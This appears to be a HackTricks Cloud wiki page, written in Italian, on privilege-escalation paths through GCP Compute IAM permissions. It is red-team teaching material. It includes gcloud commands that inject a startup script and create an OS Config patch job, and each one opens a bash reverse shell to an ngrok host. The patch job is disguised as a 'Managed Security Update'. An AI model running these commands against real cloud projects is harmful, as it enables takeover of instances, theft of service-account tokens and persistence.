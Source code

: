 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Per ulteriori informazioni su Compute e VPC (rete) in GCP controlla:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere permessi `actAs` sul SA allegato all'istanza**, anche se il SA è già allegato!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con quel permesso puoi **modificare** le informazioni di **metadata** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire via SSH in qualsiasi istanza VM e rubare il GCP Service Account con cui l'istanza sta funzionando.\
Limitazioni:

* Nota che i GCP Service Accounts in esecuzione nelle istanze VM per impostazione predefinita hanno un **ambito molto limitato**
* Dovrai essere **in grado di contattare il server SSH** per accedere

Per ulteriori informazioni su come sfruttare questo permesso controlla:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Puoi anche eseguire questo attacco aggiungendo un nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questo permesso fornisce i **stessi privilegi del permesso precedente** ma su istanze specifiche invece che su un intero progetto. Gli **stessi exploit e limitazioni della sezione precedente si applicano**.

### `compute.instances.setIamPolicy`

Questo tipo di permesso ti permetterà di **assegnarti un ruolo con i permessi precedenti** e di elevare i privilegi abusando di essi.

### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questo permesso puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Non **avrai privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare correttamente il login con questo permesso all'interno dell'istanza VM, devi avere il permesso `iam.serviceAccounts.actAs` sul SA associato alla VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questo permesso puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Avrai **privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare correttamente il login con questo permesso all'interno dell'istanza VM, devi avere il permesso `iam.serviceAccounts.actAs` sul SA associato alla VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Service Account assegnato e rubare il token** dell'account di servizio accedendo ai metadati per elevare i privilegi su di esso.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai i permessi **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**lavoro di patch o distribuzione**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze di calcolo all'interno di un progetto.

Nota che al momento **non hai bisogno del permesso `actAs`** sul SA associato all'istanza.

Se vuoi sfruttare manualmente questo, dovrai creare o un [**lavoro di patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **o** [**una distribuzione**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Per un lavoro di patch esegui: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Per distribuire un'implementazione di patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Lo strumento [patchy](https://github.com/rek7/patchy) potrebbe essere stato utilizzato in passato per sfruttare questa misconfigurazione (ma ora non funziona).

**Un attaccante potrebbe anche abusare di questo per la persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi extra** per l'immagine di calcolo.

### `compute.snapshots.setIamPolicy`

**Concediti permessi extra** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi extra** per un disco.

### Bypass Access Scopes

Seguendo questo link troverai alcune [**idee per provare a bypassare gli access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
